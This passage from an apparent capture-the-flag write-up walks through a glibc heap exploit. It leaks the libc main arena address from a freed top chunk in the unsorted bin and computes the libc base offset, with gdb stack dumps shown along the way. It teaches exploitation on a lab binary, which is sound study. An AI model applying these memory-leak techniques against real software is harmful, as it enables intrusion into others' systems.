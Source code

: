We can see that the top chunk is freed and goes into unsorted bin. At here, the program write libc main arena to that chunk so we can see stuff at that freed top chunk. The address for the `malloc(0x1000)` is placed in the next page and saved in the stack like this:

```
0x00007ffe68571be0│+0x0000: "B=malloc(4096)\n"   ← $rax, $rsp, $rdi
0x00007ffe68571be8│+0x0008: "(4096)\n"
0x00007ffe68571bf0│+0x0010: 0x0000564641e852a0  →  0x0000000000000000    <-- Chunk index 0
0x00007ffe68571bf8│+0x0018: 0x0000564641ea6010  →  0x0000000000000000    <-- Chunk index 1
0x00007ffe68571c00│+0x0020: 0x0000000000000000
0x00007ffe68571c08│+0x0028: 0x0000000000000000
0x00007ffe68571c10│+0x0030: 0x0000000000000000
0x00007ffe68571c18│+0x0038: 0x0000000000000000
```

So now, let’s leak the libc main arena address in the freed top chunk first. To do that, we just simply malloc an amount which is smaller than freed top chunk (which turn into unsorted bin) because malloc() doesn't remove data on that chunk (just free() does), and then print the libc main arena address out (Address changed because I rerun it):

```
malloc(2, 0x100)
puts(2)
```

Running it and we get the libc main arena address leaked:

![libc_main_arena_address_leaked.png](/static/images/mocsctf-2022/libc_main_arena_address_leaked.png)

Stack contain the chunk with index 2:

```
0x00007ffe5fd1bc90│+0x0000: "puts(C)\n"  ← $rax, $rsp, $rdi
0x00007ffe5fd1bc98│+0x0008: 0x00000a2936353200
0x00007ffe5fd1bca0│+0x0010: 0x0000555ddbd4f2a0  →  0x0000000000000000    <-- Chunk index 0
0x00007ffe5fd1bca8│+0x0018: 0x0000555ddbd70010  →  0x0000000000000000    <-- Chunk index 1
0x00007ffe5fd1bcb0│+0x0020: 0x0000555ddbd4f2c0  →  0x00007f416cfea1e0    <-- Chunk index 2
0x00007ffe5fd1bcb8│+0x0028: 0x0000000000000000
0x00007ffe5fd1bcc0│+0x0030: 0x0000000000000000
0x00007ffe5fd1bcc8│+0x0038: 0x0000000000000000
```

Compared with chunk 2 data and we know it’s correct. Now we will do a simple calculation to get the offset between that leaked address with libc base address. We can get libc base address using `vmmap` (for gdb-gef I think so)

![vmmap_libc_base.png](/static/images/mocsctf-2022/vmmap_libc_base.png)

So the libc base address is `0x00007f416cdfe000`, the leaked address is `0x00007f416cfea1e0`, the offset will be:

```
0x00007f416cfea1e0 - 0x00007f416cdfe000 = 0x1ec1e0
```

So every time we get the leaked libc main arena address, we just subtract with this offset and we have the libc base address. That’s great for now! Let’s move on the second stage: Free 2 small chunks!
